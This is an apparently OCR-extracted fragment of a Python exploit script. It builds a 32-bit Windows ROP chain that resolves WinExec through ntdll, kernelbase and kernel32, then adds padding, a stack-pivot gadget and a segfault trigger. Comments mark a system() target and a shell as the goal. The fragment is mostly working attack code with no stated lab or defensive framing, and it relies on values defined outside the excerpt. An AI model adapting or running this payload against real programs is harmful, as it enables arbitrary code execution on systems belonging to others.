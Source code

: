 ```py

#ntdll
ropchain += p32(deref_pop_ecx)
ropchain += p32(0)
#kbase
ropchain += p32(deref_pop_ecx)
ropchain += p32(0)
#k32, dst reached, now to get imagebase
ropchain += p32(deref_pop_ecx)
ropchain += p32(8)
ropchain += p32(add_ecx_eax)
ropchain += p32(deref_pop_ecx)


#set ecx to winexec off
ropchain += p32(WinExec_off)
ropchain += p32(add_ecx_eax)
#now eax is ready for call
#still need to set ecx though
ropchain += p32(pop_ecx)
ropchain += p32(1)


ropchain += p32(push_push_call)

loopchain_pad = b'B' * (0x800 - len(ropchain) + 36 + 0x10 * 5 + 4)
espadd_offset_2 = espadd_offset + 0x800

inf_loop += module_base
ropchain_loop = b''
ropchain_loop += p32(inf_loop)

#shell :DD



payload += ropchain
payload += loopchain_pad
payload += ropchain_loop

payload += b"A" * (tot_head - espadd_offset - len(ropchain) - len(ropchain_loop) - len(loopchain_pad))

#payload += b'\x69\x69\x69\x69' 
payload += b'XDXD' 


#0x409a75 -> system()
#target

#0x00401089 : add esp, 0x1000 ; pop ebp ; ret
payload += p32(add_esp)








#trigger segfault

payload += b" " * 0x4000
```